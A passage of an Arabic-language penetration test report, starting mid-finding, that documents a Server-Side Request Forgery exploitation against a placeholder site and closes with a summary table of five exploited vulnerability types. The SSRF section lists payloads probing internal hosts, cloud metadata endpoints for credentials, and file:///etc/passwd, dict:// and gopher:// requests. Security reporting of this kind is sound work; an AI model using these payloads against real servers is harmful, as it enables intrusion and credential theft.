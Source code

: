 **مستوى الخطورة:** مرتفع (High)  
**التأثير:** الكشف عن معلومات حساسة وتنفيذ كود على الخادم

---

### ٥. اثبات استغلال ثغرات تزوير الطلبات من جانب الخادم (Server-Side Request Forgery - SSRF)

#### وصف الثغرة
ثغرة SSRF تسمح للمهاجم بإرسال طلبات من الخادم إلى موارد داخلية أو خارجية.

#### اثبات الاستغلال

**الهدف:** `http://vulnerable-site.com/fetch?url=http://example.com`

**أكواد الاستغلال:**

١. **فحص الشبكة الداخلية:**
```
http://192.168.1.1:80
http://10.0.0.1:3306
http://172.16.0.1:6379
```
**النتيجة:** تم اكتشاف خدمات داخلية غير متاحة من الخارج

٢. **الوصول إلى بيانات Cloud Metadata:**
```
http://169.254.169.254/latest/meta-data/
http://metadata.google.internal/computeMetadata/v1/
```
**النتيجة:** تم استخراج بيانات الاعتماد الخاصة بخدمات Cloud

٣. **استخدام بروتوكولات مختلفة:**
```
file:///etc/passwd
dict://localhost:11211
gopher://localhost:70
```
**النتيجة:** الوصول إلى ملفات النظام وخدمات مختلفة

**مستوى الخطورة:** حرج (Critical)  
**التأثير:** الوصول إلى الخدمات الداخلية وسرقة بيانات الاعتماد

---

## ملخص نتائج الاستغلال

| نوع الثغرة | عدد الثغرات المستغلة | مستوى الخطورة | التأثير |
|------------|---------------------|---------------|---------|
| SQL Injection | 1 | حرج | وصول كامل لقاعدة البيانات |
| XSS | 1 | مرتفع | سرقة بيانات الاعتماد |
| Command Injection | 1 | حرج | وصول كامل للنظام |
| LFI | 1 | مرتفع | الكشف عن معلومات حساسة |
| SSRF | 1 | حرج | الوصول للخدمات الداخلية |

